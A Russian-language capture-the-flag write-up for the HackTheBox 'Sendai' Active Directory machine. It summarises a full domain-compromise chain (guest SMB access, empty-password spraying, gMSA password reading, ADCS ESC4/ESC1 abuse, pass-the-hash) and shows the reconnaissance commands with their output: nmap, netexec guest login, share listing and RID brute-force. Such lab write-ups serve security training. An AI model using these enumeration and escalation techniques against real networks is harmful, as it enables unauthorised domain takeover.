










:simple-hackthebox: [Комната на HackTheBox](https://app.hackthebox.com/machines/Sendai){:target="_blank"}

!!! danger "ОБРАТИТЕ ВНИМАНИЕ!"
    В ходе написания райтапа и прикрепления вывода терминала/скриншотов с результатами работы различных тулов я не скрываю полученные хэши/пароли/флаги (иные подсказки) для того, чтобы люди, столкнувшиеся с определенными трудностями на каком-либо этапе, могли использовать мой райтап в качестве подсказки. Для тех, кто столкнулся с определенными сложностями в процессе компрометации данной машины, но не хочет получать готовые ответы, я использую спойлеры, под которыми находится вся секретная информация.

## Резюме

**Sendai** - это машина на **HackTheBox** сложности уровня **Medium**. На данной машине представлена ОС Windows с доменом Active Directory. Отправной точкой атаки становится SMB, работающий на открытом 445 порту. Возможность анонимного доступа позволила обнаружить внутренний служебный файл `incident.txt`, в котором говорилось о недавней процедуре массового сброса паролей (юзеры должны были сменить пароль при следующей аутентификации). После получения списка пользователей с помощью `netexec` (`--rid-brute`) был выполнен `password spraying` с пустым паролем для выявления учетных записей с активным флагом `STATUS_PASSWORD_MUST_CHANGE`, в ходе чего было выявлено две учетные записи. Это позволило легитимно, используя RPC-вызовы, установить одной из данных учетных записей пароль, не зная предыдущего. В дальнейшем был проведен анализ возможностей скомпрометированной учетной записи в `BloodHound`, что привело к обнаружению разрешения `ReadGMSAPassword` у группы `Support`, в которой состояла скомпрометированная учетная запись `elliot.yates` в отношении компьютерной учетной записи `MGTSVC$`. С помощью `netexec` был получен хэш пароля данной учетной записи и выполнена аутентификация в системе от лица `MGTSVC$`, а также был найден первый флаг (`user.txt`). Локальное перечисление системы привело к обнаружению запуска одной из служб с передачей учетных данных пользователя домена `clifford.davey` в открытом виде. Данный пользователь, как выяснилось далее, состоял в группе `CA-OPERATORS`, у которой, в свою очередь, было разрешение `GenericAll` в отношении шаблона сертификата `SENDAICOMPUTER`, что привело к возможности вектора атаки на шаблон сертификата вида ESC4 и ESC1. После выпуска сертификата для пользователя `Administrator` была выполнена аутентификация с помощью данного сертификата с использованием тула `certipy-ad` и был получен хэш его пароля. Затем с помощью `evil-winrm` была получена интерактивная сессия и найден второй флаг (`root.txt`).

## Цепочка атаки

>Port Scanning (nmap) → SMB Enumeration (nxc / smbclient → incident.txt) → User Enumeration (nxc RID Brute-force) → 
>Forced Password Reset (impacket-changepasswd → elliot.yates) → AD Enumeration (bloodhound-python) → 
>Group Membership Abuse (bloodyAD → GenericAll → ADMSVC) → GMSA Abuse (nxc ldap → ReadGMSAPassword → MGTSVC) → 
>Remote Access (evil-winrm → MGTSVC$ → user.txt) → Local Service Enumeration (PowerShell → HKLM) → 
>Cleartext Credential Extraction (helpdesk.exe → clifford.davey) → AD CS Template Modification (ESC4 → certipy-ad) → 
>Certificate Enrollment (ESC1 → administrator) → Credential Extraction via PKINIT (certipy-ad) → 
>Pass-the-Hash (evil-winrm) → Domain Admin (root.txt)

## MITRE ATT&CK MAPPING

| Phase                            | Tactic               | Technique                                             | ID        |
|----------------------------------|----------------------|-------------------------------------------------------|-----------|
| Network Enumeration              | Discovery            | Network Service  Discovery                            | T1046     |
| Data Collection (SMB)            | Collection           | Data from Network  Shared Drive                       | T1039     |
| AD User Enumeration              | Discovery            | Account Discovery:  Domain Account                    | T1087.002 |
| Account Takeover                 | Initial Access       | Valid Accounts:  Domain Accounts                      | T1078.002 |
| AD Privilege Discovery           | Discovery            | Permission Groups  Discovery: Domain Groups           | T1069.002 |
| Group Membership Abuse           | Privilege Escalation | Account Manipulation                                  | T1098     |
| Remote Execution                 | Lateral Movement     | Remote Services:  Windows Remote Management           | T1021.006 |
| Local Service Enum               | Discovery            | System Service Discovery                              | T1007     |
| Cleartext Credential  Extraction | Credential Access    | Unsecured Credentials:  Credentials in Registry       | T1552.002 |
| AD CS Exploitation               | Credential Access    | Steal or Forge  Authentication Certificates           | T1649     |
| Domain Privilege  Escalation     | Lateral Movement     | Use Alternate Authentication  Material: Pass the Hash | T1550.002 |

## Разведка и сбор данных — `T1046`, `T1039`, `T1087.002`

??? note "Результат сканирования `nmap`"
    === "nmap"
        ```console
        $ nmap -sV -sC -p- 10.129.59.196
        Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-17 23:14 EDT
        Nmap scan report for 10.129.59.196
        Host is up (0.0080s latency).
        Not shown: 65511 filtered tcp ports (no-response)
        PORT      STATE SERVICE       VERSION
        53/tcp    open  domain        Simple DNS Plus
        80/tcp    open  http          Microsoft IIS httpd 10.0
        | http-methods: 
        |_  Potentially risky methods: TRACE
        |_http-title: IIS Windows Server
        |_http-server-header: Microsoft-IIS/10.0
        88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-18 03:16:21Z)
        135/tcp   open  msrpc         Microsoft Windows RPC
        139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
        389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
        |_ssl-date: TLS randomness does not represent time
        | ssl-cert: Subject: commonName=dc.sendai.vl
        | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
        | Not valid before: 2026-09-18T03:03:13
        |_Not valid after:  2027-09-18T03:03:13
        443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
        |_ssl-date: TLS randomness does not represent time
        |_http-server-header: Microsoft-IIS/10.0
        |_http-title: IIS Windows Server
        | http-methods: 
        |_  Potentially risky methods: TRACE
        | ssl-cert: Subject: commonName=dc.sendai.vl
        | Subject Alternative Name: DNS:dc.sendai.vl
        | Not valid before: 2023-07-18T12:39:21
        |_Not valid after:  2024-07-18T00:00:00
        445/tcp   open  microsoft-ds?
        464/tcp   open  kpasswd5?
        593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
        636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
        | ssl-cert: Subject: commonName=dc.sendai.vl
        | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
        | Not valid before: 2026-09-18T03:03:13
        |_Not valid after:  2027-09-18T03:03:13
        |_ssl-date: TLS randomness does not represent time
        3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
        |_ssl-date: TLS randomness does not represent time
        | ssl-cert: Subject: commonName=dc.sendai.vl
        | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
        | Not valid before: 2026-09-18T03:03:13
        |_Not valid after:  2027-09-18T03:03:13
        3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
        | ssl-cert: Subject: commonName=dc.sendai.vl
        | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
        | Not valid before: 2026-09-18T03:03:13
        |_Not valid after:  2027-09-18T03:03:13
        |_ssl-date: TLS randomness does not represent time
        3389/tcp  open  ms-wbt-server Microsoft Terminal Services
        | rdp-ntlm-info: 
        |   Target_Name: SENDAI
        |   NetBIOS_Domain_Name: SENDAI
        |   NetBIOS_Computer_Name: DC
        |   DNS_Domain_Name: sendai.vl
        |   DNS_Computer_Name: dc.sendai.vl
        |   DNS_Tree_Name: sendai.vl
        |   Product_Version: 10.0.20348
        |_  System_Time: 2026-09-18T03:17:16+00:00
        |_ssl-date: 2026-09-18T03:17:54+00:00; 0s from scanner time.
        | ssl-cert: Subject: commonName=dc.sendai.vl
        | Not valid before: 2026-09-17T03:12:17
        |_Not valid after:  2027-03-19T03:12:17
        5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        |_http-title: Not Found
        |_http-server-header: Microsoft-HTTPAPI/2.0
        9389/tcp  open  mc-nmf        .NET Message Framing
        49664/tcp open  msrpc         Microsoft Windows RPC
        49667/tcp open  msrpc         Microsoft Windows RPC
        49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
        49674/tcp open  msrpc         Microsoft Windows RPC
        49679/tcp open  msrpc         Microsoft Windows RPC
        59361/tcp open  msrpc         Microsoft Windows RPC
        59368/tcp open  msrpc         Microsoft Windows RPC
        59403/tcp open  msrpc         Microsoft Windows RPC
        Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

        Host script results:
        | smb2-time: 
        |   date: 2026-09-18T03:17:19
        |_  start_date: N/A
        | smb2-security-mode: 
        |   3:1:1: 
        |_    Message signing enabled and required

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 205.82 seconds
        ```

Выполненное сканирование при помощи `nmap` подтверждает, что перед нами хост, на котором располагается домен Active Directory, причем, представленный хост является контроллером домена. Из вывода `nmap` мы также видим, что FQDN является `dc.sendai.vl`. Заметив открытый `445 (smb)` порт, было решено попробовать выполнить подключение с анонимным доступом, для этого можно воспользоваться тулом `netexec`.

=== "netexec"
    ```console
    $ nxc smb 10.129.59.196 -u 'guest' -p ''
    SMB         10.129.59.196   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.59.196   445    DC               [+] sendai.vl\guest:
    ```

Результат работы `netexec` подтверждает наше предположение касательно анонимного доступа, мы успешно можем подключиться к SMB в качестве гостя. Пользуясь данной возможностью, выполним перечисление доступных нам для просмотра шар, юзеров (посредством опции `--rid-brute`), а также сгенерируем конфигурацию для `/etc/hosts` (при помощи опциии `--generate-hosts-file`).

=== "nxc --shares"
    ```console
    $ nxc smb 10.129.59.196 -u 'guest' -p '' --shares
    SMB         10.129.59.196   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.59.196   445    DC               [+] sendai.vl\guest: 
    SMB         10.129.59.196   445    DC               [*] Enumerated shares
    SMB         10.129.59.196   445    DC               Share           Permissions     Remark
    SMB         10.129.59.196   445    DC               -----           -----------     ------
    SMB         10.129.59.196   445    DC               ADMIN$                          Remote Admin
    SMB         10.129.59.196   445    DC               C$                              Default share
    SMB         10.129.59.196   445    DC               config                          
    SMB         10.129.59.196   445    DC               IPC$            READ            Remote IPC
    SMB         10.129.59.196   445    DC               NETLOGON                        Logon server share 
    SMB         10.129.59.196   445    DC               sendai          READ            company share
    SMB         10.129.59.196   445    DC               SYSVOL                          Logon server share 
    SMB         10.129.59.196   445    DC               Users           READ
    ```

=== "nxc --rid-brute"
    ```console
    $ nxc smb 10.129.59.196 -u 'guest' -p '' --rid-brute
    SMB         10.129.59.196   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.59.196   445    DC               [+] sendai.vl\guest: 
    SMB         10.129.59.196   445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
    SMB         10.129.59.196   445    DC               500: SENDAI\Administrator (SidTypeUser)
    SMB         10.129.59.196   445    DC               501: SENDAI\Guest (SidTypeUser)
    SMB         10.129.59.196   445    DC               502: SENDAI\krbtgt (SidTypeUser)
    SMB         10.129.59.196   445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
    SMB         10.129.59.196   445    DC               513: SENDAI\Domain Users (SidTypeGroup)
    SMB         10.129.59.196   445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
    SMB         10.129.59.196   445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
    SMB         10.129.59.196   445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
    SMB         10.129.59.196   445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
    SMB         10.129.59.196   445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
    SMB         10.129.59.196   445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
    SMB         10.129.59.196   445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
    SMB         10.129.59.196   445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
    SMB         10.129.59.196   445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
    SMB         10.129.59.196   445    DC               525: SENDAI\Protected Users (SidTypeGroup)
    SMB         10.129.59.196   445    DC               526: SENDAI\Key Admins (SidTypeGroup)
    SMB         10.129.59.196   445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
    SMB         10.129.59.196   445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
    SMB         10.129.59.196   445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
    SMB         10.129.59.196   445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
    SMB         10.129.59.196   445    DC               1000: SENDAI\DC$ (SidTypeUser)
    SMB         10.129.59.196   445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
    SMB         10.129.59.196   445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
    SMB         10.129.59.196   445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
    SMB         10.129.59.196   445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
    SMB         10.129.59.196   445    DC               1105: SENDAI\websvc (SidTypeUser)
    SMB         10.129.59.196   445    DC               1107: SENDAI\staff (SidTypeGroup)
    SMB         10.129.59.196   445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
    SMB         10.129.59.196   445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
    SMB         10.129.59.196   445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
    SMB         10.129.59.196   445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
    SMB         10.129.59.196   445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
    SMB         10.129.59.196   445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
    SMB         10.129.59.196   445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
    SMB         10.129.59.196   445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
    SMB         10.129.59.196   445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
    SMB         10.129.59.196   445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
    SMB         10.129.59.196   445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
    SMB         10.129.59.196   445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
    SMB         10.129.59.196   445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
    SMB         10.129.59.196   445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
    SMB         10.129.59.196   445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
    SMB         10.129.59.196   445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
    SMB         10.129.59.196   445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
    SMB         10.129.59.196   445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
    SMB         10.129.59.196   445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
    SMB         10.129.59.196   445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
    SMB         10.129.59.196   445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
    SMB         10.129.59.196   445    DC               1129: SENDAI\admsvc (SidTypeGroup)
    SMB         10.129.59.196   445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
    SMB         10.129.59.196   445    DC               1131: SENDAI\support (SidTypeGroup)
    ```

=== "nxc --generate-hosts-file"
    ```console
    $ nxc smb 10.129.59.196 -u 'guest' -p '' --generate-hosts-file sendai_hosts
    ```

Из результата выполненных выше команд фиксируем наличие доступа к трём шарам на уровне чтения. Кроме того, у нас получилось перечислить существующих в домене юзеров, которые, возможно, нам понадобятся в будущем, поэтому я создал и отформатировал список пользователей.

??? note "Список юзеров и конфигурация для /etc/hosts"
    === "Список пользователей"
        
        /// screenshot
        Список пользователей sendai.vl
        ///

    === "/etc/hosts"
        
        /// screenshot
        Конфигурация для /etc/hosts
        ///

!!! tip "Формирование списка пользователей"
    Для того, чтобы получить готовый список пользователей, вывод `NetExec` можно отформатировать, предварительно сохранив полученных пользователей в файл с произвольным именем. Далее содержимое этого файла можно отформатировать следующим образом:

    ```console
    $ grep -i 'SidTypeUser' users.lst | awk -F'\' '{print $2}' | awk '{print $1}' > clean_users.lst
    ```

